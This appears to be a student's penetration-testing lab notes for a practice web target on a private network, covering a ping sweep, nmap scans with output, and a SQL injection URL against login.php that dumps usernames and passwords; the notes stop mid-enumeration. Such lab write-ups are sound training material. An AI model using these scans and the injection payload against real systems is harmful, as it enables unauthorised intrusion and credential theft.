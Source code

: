 - Perform Reconnaissance 
    1. Find all information about, and contained within, the target system to include potential phishing targets, website directory structure, and hidden pages.
    2. Actively scan and interact with target to find potential attack vectors.

- Attempt Exploitation || Gain Initial Access
    1. Use information gained from reconnaissance to gain access to the system.
- Find Additional Targets
    1. Perform post-exploitation tasks (situational awareness, localhost enumeration, etc).
    2. Discover additional targets through analysis of information from post-exploitation tasks.
- Pivot to Found Targets
    1. Pivot through network to other targets as you find them.

### ***Notes for PublicFacingWebsite***

-  Starting from T1:
	- for i in {1..254} ;do (ping -c 1 10.50.20.$i | grep "bytes from" &) ;done
	- sudo nmap -sS -Pn 10.50.20.191 -p 135-139,22,80,443,21,8080
```
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
135/tcp  filtered msrpc
136/tcp  filtered profile
137/tcp  filtered netbios-ns
138/tcp  filtered netbios-dgm
139/tcp  filtered netbios-ssn
443/tcp  filtered https
8080/tcp filtered http-proxy
```
- T1 cont:
    - wget 10.50.20.191:80 (opens up the webserver)
	- firefox, type in that ip address

	- sudo nmap -sS -Pn 10.50.20.191 --script http-enum

```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-18 14:24 UTC
Nmap scan report for 10.50.20.191
Host is up (0.0021s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```
- T1 cont:
    - go to website and inspect the 'employee login' page html, see that it has a login.php option 
    - do a sql injection with `http://10.50.20.191/login.php?username=tom%27%20OR%201=%271%20&%20passwd=tom%27%20OR%201=%271` (copy and pasted from our notes) and get the following info 
        -  Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf ) 1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages ) 1
        - user2: RntyrfVfNER78 (EaglesIsARE78)
        - user3: Bob4THEEapples
    - Sadly this doesn't exactly get us anywhere at the moment, but may be helpful later. So! Let's go back to that `nmap --script http-enum` thing and enumerate all of those website
        - login.php, we've seen before
        - login.html, we've seen before